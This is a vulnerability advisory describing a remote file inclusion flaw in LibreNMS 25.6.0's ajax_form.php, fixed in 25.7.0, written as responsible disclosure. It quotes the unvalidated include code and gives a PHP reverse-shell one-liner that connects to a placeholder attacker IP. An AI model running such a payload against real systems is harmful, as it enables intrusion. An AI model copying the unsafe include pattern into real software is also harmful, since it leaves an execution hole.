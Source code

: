 # Authenticated Remote File Inclusion in `ajax_form.php` Allows RCE

#### CVE ID: Pending

#### Date: 2025-07-16

#### Author: Seth Kraft

#### Vendor Homepage: https://www.librenms.org/

#### Vendor Changelog: https://github.com/librenms/librenms/releases

#### Affected Version: 25.6.0

#### Fixed Version: 25.7.0 via [PR-17990](https://github.com/librenms/librenms/pull/17990)

#### CWE ID: [`CWE-98`](https://cwe.mitre.org/data/definitions/98.html) (Improper Control of Filename for Include/Require Statement in PHP Program)

#### Estimated CVSS Base Score: 7.5 (High)

#### Estimated Vector String: `CVSS:3.1/AV:N/AC:H/PR:L/UI:N/S:U/C:H/I:H/A:H`

#### Type: Remote PHP File Inclusion

---

## Authorization

**For authorized testing and research purposes only.** Do not test or exploit this vulnerability on systems you do not own or have explicit permission to test.

---

## Summary

LibreNMS 25.6.0 contains an architectural vulnerability in the `ajax_form.php` endpoint that permits Remote File Inclusion based on user-controlled POST input. 

The application directly uses the `type` parameter to dynamically include `.inc.php` files from the trusted path `includes/html/forms/`, without validation or allowlisting:

```php
if (file_exists('includes/html/forms/' . $_POST['type'] . '.inc.php')) {
    include_once 'includes/html/forms/' . $_POST['type'] . '.inc.php';
}
```
This pattern introduces a latent Remote Code Execution (RCE) vector if an attacker can stage a file in this include path via symlink, development misconfiguration, or chained vulnerabilities.

>  This is not an arbitrary file upload bug. But it does provide a powerful execution sink for attackers with write access (direct or indirect) to the include directory.

---

## Conditions for Exploitation

- Attacker must be authenticated    
- Attacker must control a file at `includes/html/forms/{type}.inc.php` (or symlink)        

## Example Impact (RCE)

If a PHP file or symlinked shell is staged in the include path, an attacker can achieve full remote code execution under the `librenms` user context:

```php
<?php system('/bin/bash -c "bash -i >& /dev/tcp/ATTACKER-IP/4444 0>&1"'); ?>
```

![Screen Recording 2025-06-25 212722](https://github.com/user-attachments/assets/9638d4b4-bfd6-4ace-8af1-8990c6736bc8)

---

## Solution

Upgrade to Version 25.7.0

## Disclaimer
This work was conducted outside of my employment and reflects my personal efforts in cybersecurity research.

---
